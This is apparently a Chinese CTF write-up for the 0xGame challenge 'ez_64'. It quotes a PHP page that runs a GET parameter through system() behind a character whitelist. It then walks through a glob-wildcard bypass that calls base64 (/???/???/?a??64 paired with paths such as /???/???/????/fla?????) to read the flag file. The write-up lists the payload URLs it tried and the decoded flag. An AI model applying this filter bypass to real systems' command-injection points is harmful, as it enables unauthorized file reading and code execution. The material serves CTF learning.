





# ez_64

打开指定页面：

```php
<?php
chdir(__DIR__);

if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (preg_match("#^[/?. fla64]*$#", $c)) {
        system($c);
    } else {
        die("no no no!");
    }
} else {
    highlight_file(__FILE__);
}
```



意思就是通过 `c` 参数接收输入，只允许特定字符，然后把输入直接交给 `system()` 执行。也就是说只要骗过字符检测，就能拿到系统调用。

允许字符的正则表达式是：

```
#^[/?. fla64]*$#
```

也就是说允许匹配：

- `/`
- `?`
- `.`
- ` `
- `f`
- `l`
- `a`
- `6`
- `4`

一旦有斜杠和点了，文件系统路径就完解了；有空格就可以输入命令了；有问号，Shell 是支持单字符匹配的，而后面残缺的 `fla` 明显是想让匹配 `flag` 的。

想让系统调用执行这个命令：

```bash
find / -name '*flag*'
```

但显然这里面很多字符输入不了。稍加考虑，允许匹配的 `6` 和 `4` 应该指的是 `base64` 命令，可以把文本编码后吐出来。除非 Heredoc 这种，文本一般都存储在文件里。一般首先考虑的就是根目录：

```bash
/usr/bin/base64 /*flag*
```

比如这样试一试：

```bash
/???/???/?a??64 /fla?
/???/???/?a??64 /fla??
/???/???/?a??64 /fla???
/???/???/?a??64 /fla????
/???/???/?a??64 /fla?????
/???/???/?a??64 /fla??????
/???/???/?a??64 /fla??????? # 到此为止，flag.12345 后缀名已经长达 5 了，不太可能更长
```

分别前加 `/?c=` ，扔到当前地址后面。比如第一个就是 `http://80-4014ea23-bf8b-4e52-b599-825bbcdbac0b.challenge.ctfplus.cn/?c=/???/???/?a??64%20/flag` ：



> no no no!

看来不对。把上面几个都尝试了一下，也是错的。

然后是家目录……但是 `~` 用不了，如果想匹配家目录的话很难，虽然说根目录底下四个字符的目录也就只有 `boot` 、`home` 、`proc` 等了，然而用户名不知道。

但是我从用户名想到了“我”是谁。这是个 PHP 页面，应该是跑在某个网页服务上的，比如 Apache 。看一下响应头：





果不其然，“我”很有可能是 `www-data` 。

```bash
/???/???/?a??64 /????/?????a?a/fla?
/???/???/?a??64 /????/?????a?a/fla??
/???/???/?a??64 /????/?????a?a/fla???
/???/???/?a??64 /????/?????a?a/fla????
/???/???/?a??64 /????/?????a?a/fla?????
/???/???/?a??64 /????/?????a?a/fla??????
/???/???/?a??64 /????/?????a?a/fla???????
```

以上命令尝试之后发现也都不对。

考虑到探索 `whoami` 的时候给了一点启发：有可能在 `/var/www/html/` 底下，因为这正好是 Apache 服务网页的根目录。

```bash
/???/???/?a??64 /???/???/????/fla?
/???/???/?a??64 /???/???/????/fla??
/???/???/?a??64 /???/???/????/fla???
/???/???/?a??64 /???/???/????/fla????
/???/???/?a??64 /???/???/????/fla?????
/???/???/?a??64 /???/???/????/fla??????
/???/???/?a??64 /???/???/????/fla???????
```

这个里面就有解了，是第五个：

```bash
/???/???/?a??64 /???/???/????/fla?????
```

也就是：

```
http://80-4014ea23-bf8b-4e52-b599-825bbcdbac0b.challenge.ctfplus.cn/?c=/???/???/?a??64%20/???/???/????/fla?????
```



拿到了 Base64 编码：

```
PD9waHAKJGZsYWcgPSAnMHhHYW1lezMwMWM4Yjg2LWQ0YWUtNDUxYS05MTJkLWI1NDNiNjNmYTA0 NH0nOwo/Pgo=
```

解码得到：

```php
<?php
$flag = '0xGame{301c8b86-d4ae-451a-912d-b543b63fa044}';
?>
```

所以 flag 就是 `0xGame{301c8b86-d4ae-451a-912d-b543b63fa044}` 。
